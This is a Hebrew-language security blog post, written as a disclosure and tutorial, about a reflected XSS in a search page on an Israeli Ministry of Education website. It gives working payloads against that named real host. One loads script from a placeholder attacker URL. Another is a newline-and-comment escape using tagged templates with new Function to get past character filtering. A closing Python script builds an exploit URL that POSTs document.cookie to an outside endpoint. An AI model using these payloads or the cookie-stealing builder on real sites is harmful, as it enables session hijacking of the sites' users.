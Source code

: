 ```yaml
---
layout: post
title: אתרי משרד החינוך - reflected xss
tags: [web, xss]
---
```

כיום ישנם אתרים רבים של משרד החינוך המכילים מערכת ישנה לחיפוש תוכן, החלטתי לחקור את המערכת ולנסות לחפש בה חולשות.

האתר הבא הוא אחד מן האתרים המכילים את המערכת והוא אתר שעליו אעבוד במהלך ההסבר:
```
http://cms.education.gov.il/educationcms/units/avodotgemer/default.htm
```
<!--more-->

![]({{ site.baseurl }}/assets/gov-xss/site-view.png)


ניתן לראות בצד הימני של האתר שדה חיפוש

![]({{ site.baseurl }}/assets/gov-xss/search-bar.png)

החלטתי שזה מקום מתאים לחפש בו `xss`, הזנתי בחיפוש את המילה `test`, לחצתי אנטר ולאחר מכן הועברתי לדף התוצאות

```
http://cms.education.gov.il/EducationCMS/Units/AvodotGemer/SearchResultsPages/SearchResults.htm?kw=test&mdsp=&css=/EducationCMS/UNITS/AvodotGemer/Css/Styles.css
```

ניתן לראות שהאיזור בו התוצאות נמצאות הוא בעצם iframe

![]({{ site.baseurl }}/assets/gov-xss/its-iframe.png)

נכנס לכתובת השייכת ל iframe על מנת לאפשר לנו לחקור את המערכת בצורה ברורה יותר

```
http://cms.education.gov.il/SearchResults/SearchResultsPage.aspx?kw=test&mdsp=&css=/EducationCMS/UNITS/AvodotGemer/Css/Styles.css
```

ניתן להבחין כי התוכן המוחזר לאתר מכיל ערכים שמועברים בפרמטרים של הכתבות הנשלטת על ידי המשתמש

### הפרמטר `css` מוחזר לעמוד בתוך תג import ל קובץ css

![]({{ site.baseurl }}/assets/gov-xss/css-link.png)

החלטתי לנסות להזריק קוד דרך פרמטר זה ולקוות שהשרת לא מסנן את התוכן

```
http://cms.education.gov.il/SearchResults/SearchResultsPage.aspx?kw=.&css='><script src="http://{ATTACKER_URL}/code.js"></script>
```

לצערי ה `xss auditor` קפץ וחסם את ניסיון ההזרקה של הקוד

![]({{ site.baseurl }}/assets/gov-xss/css-xss-auditor.png)

החלטתי שלנסות לעקוף את ה `xss auditor` זה יותר מידי ולכן המשכתי הלאה...

### כאשר מכניסים ערך לפרמטר `kw` הוא מופיע בקוד המקור של הדף כערך של משתנה `javascript`

![]({{ site.baseurl }}/assets/gov-xss/searchword.png)

נוכל לנסות להזריק קוד `javascript` לביטוי על ידי ניסיון פשוט והכנסת התוכן הבא:

```js
'; alert(1)//
```
בתאוריה הקוד שציינתי אמור לצאת מן הביטוי, לקרוא לפעולה `alert` ולסמן את שאר הקוד כתגובה  

```javascript
var searchKeyword = '';alert(1)//';
```

לצערנו זה לא מה שקורה פה והשרת מסנן תווים ומונע מאיתנו לצאת מן הביטוי ולהריץ קוד מה שמאשיר אותו עם האפשרות היחידה והיא להמשיך הלאה

### ערך הפרמטר `mdsp` בתור משתנה `javascript`

בדומה למשתנה `kw` ערך `mdsp` מוחזר לעמוד כמשתנה כחלק מ `javascript` אך הפעם מסומן כתגובה.

![]({{ site.baseurl }}/assets/gov-xss/mdsp-param.png)

ניתן לראות שמדובר פה בתגובה של שורה אחת ולכן אם ננסה לרדת שורה נוכל לצאת מהתגובה לנסות להריץ קוד  
נכניס לפרמטר את הערך הבא:
```
%0Ax=1;
```
* `%0A = \n = new line`

התשובה מן השרת תכלול את הקוד הבא:

```js
// http://cms.education.gov.il/SearchResults/SearchResultsPage.aspx?kw=.&mdsp=%0Ax=1

<script language="javascript" type="text/javascript">
    <!-- 
    var searchKeyword = '.';
    var searchMetaData = '';//'
    x=1'; 
    -->
</script>
```

ניתן להבחין כי ירידת השורה אכן עבדה והביטוי  `x=1` קיים בקוד   ובמקרה זה נקבל שגיאת תחביר מכיוון שיש לנו את שארית הביטוי שהשרת הוסיף אחרי הקוד שלנו (`';`)  
ניתן להיפתר מבעיה זו על ידי הוספת תגובה אחרי הקוד שלנו, כך שהביטוי הבא יווצר ללא שגיאת תחביר:

```js
var searchMetaData = '';//'
x=1//';
```

עכשיו אנו יודעים שיש לנו פוטנציאל להזרקת קוד נוכל לנסות לפנות לאתר עם הערך הבא:

```
%0Aconsole.log('xss')//
```

בתאוריה על ידי הרצת קוד זה הפלט `xss` יודפס ל `console` בדפדפן שלנו, אך במקרה שלנו השרת מסנן תווים ולכן זה לא יעבוד.  
לאחר כמה בדיקות הגעתי למסקנה שהתווים שהשרת מסנן הם:

```js
( ) " '
```

אז איך נעקוף את זה ?

בשפת ה `javascript` המודרנית יש לנו כמה פיצ'רים מגניבים, אחד מהם הוא `Template literals` ובתוכו `Tagged Templates`

* `Tagged Templates` - מאפשר לנו להשתמש בתבנית (`Template String`) כערך לפונקציה מסוימת

השימוש ב `Tagged Templates`  מאפשר לנו לקרוא לפעולה ללא סוגריים מסולסלים, מה שנותן לנו את האופציה לבצע את הדבר הבא ולקבל קריאה תקינה לפעולה, לדוגמא:

```js
alert`Hello World`
```

נוכל להשתמש בשיטה הזו ולכתוב `payload` מתאים:

```
%0Aalert`xss by amit`//
```

נכניס אותו כערך הפרמטר והפתעה ! קיבלנו `alert`

![]({{ site.baseurl }}/assets/gov-xss/xss-alert.png)

### אבל אנחנו רוצים להריץ קוד לא רק להקפיץ התראות !

המחשבה הראשונה שעלתה לי לראש היא שימוש ב `Tagged Templates`, `eval` ו`string escaping` פשוט

* השימוש ב `string escaping` מאפשר לנו לעקוף את הפילטור של התווים מכיוון שהצירופים האלו מפורשים כמקור שלהם כאשר נמצאים בתוך סטרינג

מכיוון ששימוש ב `Tagged Templates` מעביר את הפרמטר לפונקציה המבוקשת כחלק ממערך, הפעולה `eval` לא תעבוד ולכן נצטרך לחשוב על שיטה אחרת לבצע הרצת הקוד

```js
eval`alert\x28document.domain\x29;`

// same as: eval([`alert\x28document.domain\x29;`])
```

* `\x28` = `(`, `\x29` = `)`

נוכל להשתמש בפעולה `Function` המקבלת סטרינג / מערך ויוצרת לנו פעולה חדשה

```js
new Function`alert\x28document.domain\x29;`

// same as: Function([`alert\x28document.domain\x29;`])
// output will be
// ƒ anonymous() {
//     alert(document.domain);
// }
```

על מנת להבין את הפעולה של הקוד נצטרך לפצל אותו לשני חלקים:
* החלק הראשון הוא הפעולה `Function` המקבלת סטרינג כערך היא ומחזירה פונקציה
* האופרטור `new` אשר מבצע קריאה לפעולה

עכשיו רק נשאר לבדוק שאנחנו באמת מקבלים התראה המכילה את הדומיין תחתיו אנו פועלים על ידי שימוש ב `payload`:

```
%0Anew Function`alert\x28document.domain\x29;`//
```

נכנס לכתובת:

```
http://cms.education.gov.il/SearchResults/SearchResultsPage.aspx?kw=.&mdsp=%0Anew Function`alert\x28document.domain\x29;`//
```

מעולה ! עובד 😸

![]({{ site.baseurl }}/assets/gov-xss/final-xss.png)

בזמן שחקרתי את הבעיה כתבתי לעצמי סקריפט קטן לייעול העבודה:

```py
from urllib.parse import urlencode
from jsmin import jsmin

# minifying and escaping payload
payload = jsmin('''
alert(document.domain);
fetch('http://localhost:3000', {
    method: 'POST',
    body: document.cookie
})
''').replace('(', r'\x28').replace(')', r'\x29').replace('\'', r'\`')

# create a query string
params = urlencode({
    'kw': '.',
    'mdsp': f'\nnew Function`{payload}`//'
})

# append the query string to the vulnerable site
print(f'http://cms.education.gov.il/SearchResults/SearchResultsPage.aspx?{params}')
```

* הבעיה דווחה למשרד החינוך (תוך קבלת אישור לחקור את המערכת מלכתחילה) ולאחר שלא יוחסה חשיבות לה החלטתי לפרסם את הפוסט הנ"ל. (פורסם ב 25/11/2019)